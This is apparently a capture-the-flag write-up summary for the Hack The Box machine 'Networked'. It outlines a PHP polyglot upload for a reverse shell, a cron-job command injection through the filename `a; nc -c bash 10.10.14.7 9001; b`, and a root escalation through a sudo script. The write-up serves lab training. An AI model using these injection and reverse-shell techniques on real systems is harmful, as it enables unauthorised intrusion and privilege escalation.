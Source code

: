```yaml
---
tags:
  - command_injection
  - file_upload
group: Linux
---
```

![](https://labs.hackthebox.com/storage/avatars/0b286019523dcd78cf03d3a3472a3792.png)

- Machine : https://app.hackthebox.com/machines/networked
- Reference : https://0xdf.gitlab.io/2019/11/16/htb-networked.html
- Solved : 2025.3.10. (Mon) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Found open ports: **22 (SSH), 80 (HTTP), 443 (HTTPS - Closed)**
    - **Web Enumeration**:
        - Discovered directories: `/uploads` (empty), `/backup` (contains `backup.tar`)
        - Extracted web files (`index.php`, `lib.php`, `photos.php`, `upload.php`) from `backup.tar`
        
2. **Service Exploitation**
    - **File Upload Bypass**:
        - Filters in `upload.php` and `lib.php`:
            - MIME type must be `image/*`
            - Filename must end with `.jpg/.png/.gif/.jpeg`
            - Upload source IP must be valid
        - **Bypass Strategy**:
            - Crafted a polyglot file: **PNG magic bytes + PHP reverse shell**
            - Named as `cmd.php.png` and uploaded successfully
        - **Shell Access**:
            - Accessed uploaded file via `/photos.php`, established **reverse shell as `apache`**
            
3. **Privilege Escalation to `guly`**
    - **Cronjob Enumeration**:
        - `check_attack.php` runs every 3 minutes via cron (`crontab.guly`)
        - Filename in `/uploads` is used in `exec()` → **Command Injection possible**
    - **Command Injection Exploitation**:
        - Created file named: `a; nc -c bash 10.10.14.7 9001; b`
        - Triggered cronjob → **Reverse shell as `guly`**
        
4. **Privilege Escalation to `root`**
    - **Sudo Enumeration**:
        - `guly` can run `/usr/local/sbin/changename.sh` as **root (NOPASSWD)**
    - **Command Injection via Input Fields**:
        - Script uses `echo $var=$x` → space-separated inputs executed as separate commands
        - Supplied inputs like `a bash`, `b bash`, etc.
        - Successfully executed **`bash` as root**, obtaining **root shell**
